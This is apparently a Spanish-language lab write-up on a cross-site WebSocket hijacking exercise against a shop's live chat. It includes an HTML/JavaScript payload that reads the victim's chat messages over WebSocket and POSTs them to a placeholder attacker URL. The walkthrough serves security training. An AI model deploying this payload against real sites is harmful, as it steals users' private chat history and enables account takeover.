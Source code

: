 `TAREA:` Esta tienda en línea tiene una función de chat en vivo implementada mediante WebSockets.

Para resolver el laboratorio, utilice el servidor de exploits para alojar una carga útil HTML/JavaScript que utiliza un ataque de secuestro de WebSocket entre sitios para exfiltrar el historial de chat de la víctima y luego usar esto para obtener acceso a su cuenta.

iniciamos sesión y rápidamente podemos ver que tenemos una cookie de sesión y el parámetro `Same Site` esta configurado como `None`
![[Pasted image 20250729130722.png]]

si analizamos la petición podemos ver que la solicitud del mensaje se envía al servidor haciendo un llamado a recurso `/resources/js/chat.js`
![[Pasted image 20250729134949.png]]

analizamos el json `chat.js` Ese código es un script JavaScript autoejecutable que implementa la interfaz del chat en tiempo real y utiliza la función de WebSockets
![[Pasted image 20250729135359.png]]

partiendo de esta idea podemos crear nuestra conexión web socket para exfiltrar esta información

```python
<script> 
var ws = new WebSocket('wss://your-websocket-url'); 
ws.onopen = function() { ws.send("READY"); 
}; 
ws.onmessage = function(event) { 
fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data}); 
}; 
</script>
```

- **Se conecta a un servidor WebSocket**
    
    - El navegador establece una conexión con un servidor remoto (controlado por el atacante o sistema).
        
    - Esta conexión se mantiene abierta para recibir mensajes en tiempo real.
        
- **Envía una señal de "listo"**
    
    - Al establecer la conexión, el navegador envía un mensaje tipo `"READY"` para avisar que está conectado y esperando instrucciones.
        
- **Escucha mensajes entrantes**
    
    - El servidor WebSocket puede enviar mensajes al navegador.
        
- **Reenvía esos mensajes a otro servidor**
    
    - Cada mensaje recibido es automáticamente enviado (como una solicitud POST) a otra URL, bajo control del atacante. en este caso el WebSocket que hemos creado 

![[Pasted image 20250729142914.png]]

una vez realizado esto solo debemos esperar a que la victima haga clic en la solicitud para recibir la informacion
![[Pasted image 20250729142857.png]]